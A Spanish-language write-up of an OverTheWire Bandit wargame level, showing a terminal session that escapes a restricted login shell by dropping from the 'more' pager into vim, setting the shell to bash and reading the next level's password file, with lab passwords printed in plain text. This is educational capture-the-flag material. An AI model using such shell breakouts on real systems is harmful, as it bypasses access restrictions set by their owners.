 ## Objetivo 

Iniciar sesión en bandit26 desde bandit25 debería ser bastante fácil... El shell para el usuario bandit26 no es /bin/bash, sino algo más. Descubra qué es, cómo funciona y cómo salir de él.

## Datos de acceso al nivel

user bandit25
pass p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
## Solucion


```

bandit25@bandit:~$ ls -l
total 4
-r-------- 1 bandit25 bandit25 1679 Oct  5 06:19 bandit26.sshkey
bandit25@bandit:~$ 
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat :/usr/bin/showtext
cat: ':/usr/bin/showtext': No such file or directory
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0

bandit25@bandit:~$ ssh bandit26@localhost -i bandit26.sshkey


  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
:set shell=/bin/bash
:sh
bandit26@bandit:~$ id
uid=11026(bandit26) gid=11026(bandit26) groups=11026(bandit26)
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
bandit26@bandit:~$ 


```


## Notas adicionales

Cada usuario tiene un shell predeterminado de usuario. Esto es especialmente importante cuando se utiliza ssh, porque este es el shell que se mostrará. La información sobre qué shell es el predeterminado para un usuario se puede encontrar al final de la línea del usuario en el archivo '/etc/passwd'.

more -> es un comando de shell que permite la visualización de archivos en modo interactivo. Específicamente, este modo interactivo solo funciona cuando el contenido del archivo es demasiado grande para mostrarse por completo en la ventana del terminal. Un comando permitido en el modo interactivo es v. Este comando abrirá el archivo en el editor "vim".

Vim es un editor de texto. También le permite ejecutar comandos de shell. Es posible utilizar vim para salir de un entorno restringido y generar un caparazón. Para generar el shell predeterminado del usuario, se utiliza el comando :shell. Para cambiar el shell a '/bin/bash', el comando es: set shell=/bin/bash.

## Referencias 

https://www.neoguias.com/comando-more-linux/
